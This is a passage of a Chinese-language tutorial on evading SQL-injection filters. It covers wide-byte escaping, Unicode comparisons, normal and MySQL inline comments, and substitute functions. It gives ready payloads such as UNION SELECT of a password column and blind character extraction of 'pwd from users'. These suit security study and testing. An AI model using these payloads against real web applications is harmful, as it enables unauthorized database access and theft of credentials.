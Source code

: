 举例：?id=10%D6‘%20AND%201=2%23　　

　　　SELECT 'Ä'='A'; #1

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子

 

## d) 使用注释

看一下常见的用于注释的符号有哪些：*//, -- , /**/, #, --+,--*  *-, ;**，--a*

1.普通注释

举例：z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　

　　　'union%a0select pass from users#

/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询

2.内联注释

相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例：index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3

　　　?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…

两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用

 

## e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用

1.函数或变量

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：substr((select 'password'),1,1) = 0x70

　　　strcmp(left('password',1), 0x69) = 1

　　   strcmp(left('password',1), 0x70) = 0
